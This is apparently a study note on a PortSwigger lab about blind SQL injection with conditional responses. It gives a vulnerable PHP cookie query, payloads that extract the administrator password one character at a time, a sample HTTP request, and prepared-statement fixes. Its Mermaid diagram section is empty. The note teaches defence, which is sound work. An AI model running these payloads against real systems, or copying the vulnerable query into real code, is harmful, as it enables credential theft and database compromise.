

## Understanding Blind SQL Injection

Blind SQL Injection is a type of SQL Injection where the attacker cannot directly see the results of the injected SQL code. Instead, the attacker infers information based on the application's behavior. This makes the attack more challenging but also more stealthy.

### Scenario: Lab 11 Blind SQL Injection with Conditional Responses

In this scenario, the application includes a welcome-back message in the page if the query returns any rows. The application uses a cookie named `trackingID` to identify the user. The goal is to exploit the blind SQL injection vulnerability to find out the password of the administrator user and log in as the administrator.

#### Vulnerable Code Example

Consider the following PHP code snippet that processes the `trackingID` cookie:

```php
$trackingID = $_COOKIE['trackingID'];
$query = "SELECT * FROM users WHERE trackingID = '$trackingID'";
$result = mysqli_query($conn, $query);
if ($result && mysqli_num_rows($result) > 0) {
    echo "<div>Welcome back!</div>";
}
```

If the `trackingID` is not properly sanitized, an attacker can inject SQL code to manipulate the query.

### Exploiting the Vulnerability

The attacker can inject SQL code to manipulate the query and infer information based on the presence or absence of the welcome-back message.

#### Injecting SQL Code

For example, the attacker can inject the following SQL code:

```plaintext
' OR 1=1 --
```

This modifies the query to:

```sql
SELECT * FROM users WHERE trackingID = '' OR 1=1 --'
```

Since `1=1` is always true, the query will return rows, triggering the welcome-back message.

### Enumerating the Password

To enumerate the password, the attacker can use conditional responses to guess each character of the password. For example, to check if the first character of the password is 'a', the attacker can inject:

```plaintext
' AND ASCII(SUBSTRING(password, 1, 1)) = 97 --
```

This modifies the query to:

```sql
SELECT * FROM users WHERE trackingID = '' AND ASCII(SUBSTRING(password, 1, 1)) = 97 --'
```

If the query returns rows, the first character of the password is 'a'. The attacker can repeat this process to guess each character of the password.

### Full HTTP Request and Response

Here is an example of the full HTTP request and response:

```http
GET /index.php?trackingID=' AND ASCII(SUBSTRING(password, 1, 1)) = 97 -- HTTP/1.1
Host: vulnerable-app.com
Cookie: trackingID=' AND ASCII(SUBSTRING(password, 1, 1)) = 97 --

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Vulnerable App</title>
</head>
<body>
    <div>Welcome back!</div>
</body>
</html>
```

### Mermaid Diagram: Attack Chain



### Common Pitfalls

- **Improper Input Validation**: Failing to validate and sanitize user input can lead to SQL Injection.
- **Using Dynamic SQL Queries**: Constructing SQL queries using string concatenation can make them vulnerable to injection.
- **Not Using Prepared Statements**: Prepared statements can help prevent SQL Injection by separating the SQL logic from the data.

### How to Prevent / Defend

#### Secure Coding Practices

Use prepared statements and parameterized queries to ensure that user input is treated as data rather than executable code.

**Vulnerable Code:**

```php
$trackingID = $_COOKIE['trackingID'];
$query = "SELECT * FROM users WHERE trackingID = '$trackingID'";
$result = mysqli_query($conn, $query);
```

**Secure Code:**

```php
$trackingID = $_COOKIE['trackingID'];
$stmt = $conn->prepare("SELECT * FROM users WHERE trackingID = ?");
$stmt->bind_param("s", $trackingID);
$stmt->execute();
$result = $stmt->get_result();
```

#### Hardening the Database

- **Least Privilege Principle**: Ensure that the database user has the minimum necessary permissions.
- **Disable Unnecessary Features**: Disable features like stored procedures or triggers that are not needed.

#### Detection and Monitoring

- **Web Application Firewalls (WAF)**: Use WAFs to detect and block SQL Injection attempts.
- **Logging and Monitoring**: Monitor database logs for unusual activity and set up alerts for suspicious patterns.

### Practice Labs

For hands-on practice with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice various types of SQL Injection.
- **OWASP Juice Shop**: A deliberately insecure web app for practicing web security techniques.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that demonstrates web application vulnerabilities.

By thoroughly understanding and practicing the concepts of SQL Injection, you can better protect web applications from these types of attacks.

---
<!-- nav -->
[[02-Blind SQL Injection with Conditional Responses|Blind SQL Injection with Conditional Responses]] | [[Web Security (PortSwigger)/02-SQL Injection/12-Lab 11 Blind SQL injection with conditional responses/00-Overview|Overview]] | [[04-Understanding SQL Injection|Understanding SQL Injection]]
